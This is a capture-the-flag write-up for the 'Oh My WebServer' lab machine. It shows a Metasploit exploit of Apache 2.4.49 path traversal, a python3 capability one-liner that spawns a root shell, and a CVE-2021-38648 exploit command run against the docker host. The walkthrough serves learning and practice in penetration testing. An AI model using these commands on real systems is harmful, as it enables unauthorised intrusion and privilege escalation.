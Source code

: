 # Oh My WebServer

### Oh My WebServer
Nmap scan shows ports 22 and 80 open. Port 80 is an apache web server, version 2.4.49. This version is vulnerable to [path traversal and RCE](https://github.com/blackn0te/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution).<br />
There's also a metasploit module for this, and I used it to access the machine: <br />

    use multi/http/apache_normalize_path_rce
    set lhost MY_IP
    set rport 80
    set rhosts TARGET_IP
    set ssl false 
    run
Now that I'm on the machine, I used linpeas to enumerate the machine and it finds a capability on python3:<br />
![image](https://github.com/user-attachments/assets/a9e19bce-4d96-45a4-b020-7a9f4ea62491)<br />
There's a very good guide on [here](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how to exploit this capability.<br />
To summerize, you need to execute: `/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'`:<br />
![image](https://github.com/user-attachments/assets/d5dc1bda-53f5-4ed9-bb04-4dc83de866d2)<br />
Thus, become root! The user.txt file is inside /root:<br />
![image](https://github.com/user-attachments/assets/544be2ca-4d8e-4826-934f-5cb791d6b0ad)<br />
This is where I understood that I'm actually in a docker container. Furthermore: <br />
![image](https://github.com/user-attachments/assets/2ea2ae71-7f37-4785-9961-ea39375eef17)<br />
The address of the machine is `172.17.0.2`. This is typical of a docker container. The default gateway is instead `172.17.0.1`, and it's the address of the host machine that contains the container. After enumerating the machine A LOT, I tried to check if there are any other machines in this IP subnet, maybe the docker container uses `172.17.0.1`, the default gateway, to communicate with the host.
And the ports it finds are: <br />
![image](https://github.com/user-attachments/assets/d548b00d-b93c-413c-8c08-d6e86e04f2ab)<br />
Searching online on how to pentest port 5986 I found [this CVE](https://github.com/CyberMonitor/CVE-2021-38648), that allows for remote code execution.<br />
So I transfer the exploit on the target machine and execute: `python3 out.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root.txt;'`
![image](https://github.com/user-attachments/assets/d0acf199-3a8e-482e-a5f5-e6b88ecd5eeb)<br />



